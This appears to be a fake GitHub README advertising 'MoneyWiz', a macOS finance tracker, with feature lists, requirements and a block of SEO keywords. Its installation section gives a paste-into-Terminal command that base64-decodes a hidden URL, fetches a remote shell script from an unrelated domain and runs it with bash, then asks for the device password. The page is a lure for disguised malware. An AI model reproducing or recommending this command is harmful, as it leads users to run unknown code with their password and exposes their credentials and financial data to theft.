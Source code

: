 # 💰 MoneyWiz – Personal Finance Tracker for macOS

📌 About MoneyWiz  
MoneyWiz is a comprehensive finance management app for macOS designed to help individuals and families take full control of their budgets. It offers real-time syncing, multi-currency support, investment portfolio tracking, and direct bank imports. With a modern native macOS interface and Apple Silicon optimization, MoneyWiz keeps your financial life organized, accurate, and accessible across all your devices.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://images.ctfassets.net/13g5no3omm60/7xU0rfAaZenLGWKVs5bzYi/544177599759b0fabde533e2ecedd201/money-wiz.jpg)  
- ![](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcR94MtTsiHVPJ84Y-1Y-BUbBHsM-eeuRFbIXA&s)  

## 🎯 Key Features  
⚡️ Syncs transactions and budgets across all devices in real time.  
🔒 End-to-end encryption for all financial data and cloud sync.  
⚙️ Connects to thousands of banks worldwide for auto-import.  
🚀 Optimized for Apple Silicon with fast financial data processing.  
🎨 Native macOS interface with widgets, reports, and Dark Mode.  
📊 Budgeting, cash flow forecasts, investment & loan tracking.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`moneywiz macos` · `personal finance tracker mac` · `budgeting app for mac` · `bank sync finance app` · `investment tracking mac` · `money manager macos` · `apple silicon finance app` · `expense tracker mac` · `macos budgeting tool` · `mac finance dashboard` · `real-time bank sync` · `loan tracker macos` · `multi-currency budget app` · `macos cash flow manager` · `end-to-end encrypted finance app`
